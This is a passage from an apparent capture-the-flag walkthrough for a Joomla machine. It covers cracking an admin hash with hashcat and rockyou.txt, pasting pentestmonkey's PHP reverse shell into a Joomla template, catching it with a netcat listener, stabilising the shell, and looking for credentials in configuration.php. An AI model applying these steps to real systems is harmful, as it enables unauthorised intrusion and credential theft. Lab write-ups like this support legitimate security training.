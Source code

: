 I went with ```hashcat -m # -a 0 hash.txt -o cracked.txt wordlist/location``` and used *rockyou.txt* as the wordlist. You will also have to discover which mode to use (-m #) in order to crack the hash.

After cracking the password you will get the answer to the second question of Task 2.

Now with the credentials set, we can login to the Joomla admin panel and get our reverse shell.

Joomla is made with PHP which means we will *php-reverse-shell* to get our reverse shell. By default in Kali Linux, the script is located in **/usr/share/webshells/php/** or you can get it from https://github.com/pentestmonkey/php-reverse-shell

Remember to always set your IP and PORT in the script so that your listener can connect.

Now how do we get our script in the Joomla admin panel?

On the top go to `Extensions -> Templates -> Templates`  choose Beez3 and on the left simply paste the code in the *index.php* file.

Start netcat with `nc -lvnp PORT_NUMBER` and navigate to `http://<target-ip>/templates/beez3`

## PRIVILIGE ESCALATION

Once in, it is a good idea to stabilize your shell, so that you can use the arrow keys, tab completion and use Ctrl+C 

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z (Ctrl+Z)
stty raw -echo;fg
```

After that it is a good idea to search around in */var/www/html* and see if you can find something interesting.

We can see that there is a *configuration.php* file

```sh
bash-4.2$ pwd
/var/www/html
bash-4.2$ ls -lahs
total 64K
4.0K drwxr-xr-x. 17 apache apache 4.0K Dec 14  2019 .
   0 drwxr-xr-x.  4 root   root     33 Dec 14  2019 ..
 20K -rwxr-xr-x.  1 apache apache  18K Apr 25  2017 LICENSE.txt
8.0K -rwxr-xr-x.  1 apache apache 4.4K Apr 25  2017 README.txt
   0 drwxr-xr-x. 11 apache apache  159 Apr 25  2017 administrator
   0 drwxr-xr-x.  2 apache apache   44 Apr 25  2017 bin
   0 drwxr-xr-x.  2 apache apache   24 Apr 25  2017 cache
   0 drwxr-xr-x.  2 apache apache  119 Apr 25  2017 cli
4.0K drwxr-xr-x. 19 apache apache 4.0K Apr 25  2017 components
4.0K -rw-r--r--   1 apache apache 2.0K Dec 14  2019 configuration.php
4.0K -rwxr-xr-x.  1 apache apache 3.0K Apr 25  2017 htaccess.txt
   0 drwxr-xr-x.  5 apache apache  164 Dec 15  2019 images
   0 drwxr-xr-x.  2 apache apache   64 Apr 25  2017 includes
4.0K -rwxr-xr-x.  1 apache apache 1.4K Apr 25  2017 index.php
   0 drwxr-xr-x.  4 apache apache   54 Apr 25  2017 language
   0 drwxr-xr-x.  5 apache apache   70 Apr 25  2017 layouts
   0 drwxr-xr-x. 11 apache apache  255 Apr 25  2017 libraries
4.0K drwxr-xr-x. 26 apache apache 4.0K Apr 25  2017 media
4.0K drwxr-xr-x. 27 apache apache 4.0K Apr 25  2017 modules
   0 drwxr-xr-x. 16 apache apache  250 Apr 25  2017 plugins
4.0K -rwxr-xr-x.  1 apache apache  836 Apr 25  2017 robots.txt
   0 drwxr-xr-x.  5 apache apache   68 Dec 15  2019 templates
   0 drwxr-xr-x.  2 apache apache   24 Dec 15  2019 tmp
4.0K -rwxr-xr-x.  1 apache apache 1.7K Apr 25  2017 web.config.txt
```
